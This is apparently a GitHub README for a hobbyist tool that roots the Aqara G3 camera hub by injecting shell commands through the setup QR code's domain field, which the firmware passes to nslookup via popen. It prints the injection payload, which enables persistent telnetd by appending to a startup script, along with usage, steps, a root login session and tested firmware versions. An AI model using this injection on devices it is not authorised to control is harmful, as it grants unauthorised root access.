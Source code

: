 # aQRootG3 #
### Enable telnet via qrcode command injection for Aqara G3 hub ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/146663111-146c18cc-f337-49a9-99b9-0e8f93e97e3a.jpg"> 
</p>


Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work. Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen. (yay)
Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer and on a readonly filesystem was a little more challenging.
(Aqara have also changed their key ciphering for ssid and pwd)


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.1
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload = {
    "b": f"lumiLZc1dhEfPzMN",               # Made up bind_key
    "d": ";".join(
        [
            domain,                         # Domain being queried by nslookup, defaulting to "aiot-coap.aqara.cn"
            'x="fw_""manager.sh"',          # Workaround - Script checks if it's already running by grepping ps.
            "$x -t -k",                     # Enable tty and telnetd
            "$x -t -f",                     # Create default /data/scripts/post_init.sh
            "y=/data/scripts/post_init.sh",
            'echo "$x -t -k" >> $y',        # Append tty enable and telnetd start to post_init script
            "chmod 555 $y",                 # Remove write access to post_init script
        ]
    ),
    "x": cipher(ssid.encode()),             # Ciphered SSID
    "y": cipher(pwd.encode()),              # Ciphered Wireless Password
    "l": "en",                              # Language
}
```

Tested Versions
---------------

| Firmware Version | Status |
| --------------- | -- |
| 3.2.7_0019.0004 | :white_check_mark: |
| 3.3.2_0003.0004  | :white_check_mark: |
| 3.3.4_0007.0004  | :white_check_mark: |


